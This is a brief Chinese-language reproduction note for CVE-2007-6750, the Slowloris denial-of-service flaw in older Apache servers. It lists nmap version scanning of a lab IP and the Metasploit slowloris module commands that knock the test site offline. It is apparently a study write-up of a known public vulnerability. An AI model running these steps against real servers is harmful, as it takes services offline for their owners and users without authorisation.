

# （CVE-2007-6750）Apache ddos

> 原文：[http://book.iwonder.run/0day/Apache/1.html](http://book.iwonder.run/0day/Apache/1.html)

## 一、漏洞简介

Apache HTTP 服务器 1.x 和 2.x 允许远程攻击者通过部分 HTTP 请求导致拒绝服务(守护进程中断)，如 Slowloris 所示，这与 2.2.15 之前版本中缺少 mod_ReqTimeout 模块有关

## 二、漏洞影响

Apache 1.x/2.x

## 三、复现过程

nmap -sV -p80 192.168.146.175(用 nmap 查看 Apache 版本)(Apache2.2.3 初步断定存在漏洞)

<center></center>

接着访问网站查看是否正常(发现网站正常)

<center></center>

```
msfconsole(启动 metasploit)

use auxiliary/dos/http/slowloris(使用模块)

set RHOST 192.168.146.175(设置目标 IP)

run(执行攻击) 
```

<center></center>

再访问网站查看是否正常(发现网站瘫痪)

<center></center>

## 四、参考链接

> [https://www.jsxlo.com/cve-2007-6750/](https://www.jsxlo.com/cve-2007-6750/)

